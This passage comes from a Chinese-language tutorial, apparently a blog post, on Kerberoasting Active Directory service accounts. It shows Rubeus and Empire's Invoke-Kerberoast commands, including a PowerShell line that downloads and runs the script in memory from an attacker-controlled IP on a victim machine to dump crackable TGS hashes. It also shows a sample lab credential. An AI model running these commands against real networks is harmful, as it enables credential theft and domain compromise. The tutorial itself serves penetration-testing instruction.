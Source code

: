     .\rubeus.exe keberoast
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172738909-1924765860.png)

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172740959-774883325.png)

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172740951-1802299551.png)

Boom！就这样，Rubeus 便找到了可 kerberoasting 攻击的用户，并转储了它们的 TGS-REP 哈希值！

#### **

6.2、Invoke-Kerberoast

**

**Invoke-Kerberoast.ps1** 是一个 PowerShell 脚本，它是后利用框架 [Empire](https://github.com/BC-SECURITY/Empire) 的一部分。

将 Invoke-Kerberoast.ps1 的副本下载并传输到受害机之后，就可以通过在受害机执行以下命令来请求票据并以可破解的格式输出哈希：

    . .\Invoke-Kerberoast.ps1
    Invoke-Kerberoast -OutputFormat hashcat | fl
    

或者，也可以通过在脚本底部附加以下命令的方式，通过远程来加载运行脚本：

    echo 'Invoke-Kerberoast -OutputFormat hashcat | fl' >> Invoke-Kerberoast.ps1
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172740776-1896887728.png)

然后，在受害机上，可以使用以下命令将脚本直接下载到内存中执行：

    iex(new-object net.webclient).downloadstring('http://172.16.1.30/Invoke-Kerberoast.ps1')
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172740470-1693683024.png)

脚本执行的结果和使用 Rubeus 执行的结果相似，然后就可以将哈希值复制并粘贴到 TXT 文件中，以便可以使用 Hashcat 去破解它们。

Cool！现在，我们已经见过了很多关于如何执行 Kerberosting 攻击的示例，然而，这些攻击都需要我们在目标上建立立足点才能执行。

接下来，我们将转向不同的场景，看看如何不建立立足点便可以通过远程去执行 Kerberoasting 攻击。

**

7、自动 Kerberoasting 攻击 – 远程(携用户凭据)

**
-----------------------------------------

在接下来的示例中，我们将使用三种不同的工具去远程执行 kerberoasting 攻击（无需立足点）：**GetUserSPNs.py、CrackMapExec**、**Pypykatz**。

这里我们假设，在初始枚举期间我们在 Windows 10 主机的 SMB 共享中发现了一组有效的凭据。

**Intern : W3lc0met0Th3p4rtY**

在对该凭据进行各种访问权限的检测之后，我们发现无法通过任何基本方式（RDP、WinRM、SMB）能与目标建立立足点。
